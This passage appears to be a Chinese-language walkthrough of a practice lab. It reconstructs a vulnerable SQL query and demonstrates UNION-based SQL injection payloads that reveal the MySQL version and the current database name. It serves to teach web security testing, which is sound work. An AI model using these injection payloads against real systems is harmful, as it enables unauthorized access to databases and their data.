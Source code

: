 从响应的消息中我们可以看出接收端收到 `toolIDRequested` 参数，从 `penTestTools` 表中接收到 `tool_id`、`tool_name`、`phase_to_use`、`tool_type`、`comment` 这样 5 项内容。

由此我们基本上就可以还原出具体的 SQL 语句了：

```
select tool_id,tool_name,phase_to_use,tool_type,comment from penTestTools where id= '1'; 
```

我们可以看到一共搜索了 5 项内容，我们可以通过 union 来展示更多的信息：

```
1' union select version(),null,null,null,null #
```

![show-mysql-version](../imgs/wm_471.png)

接下来的内容便主要是 SQL 注入类似了。我们还可以使用 `database()` 查看到当前我们使用的数据库：

```
1' union select version(),database(),null,null,null #
```
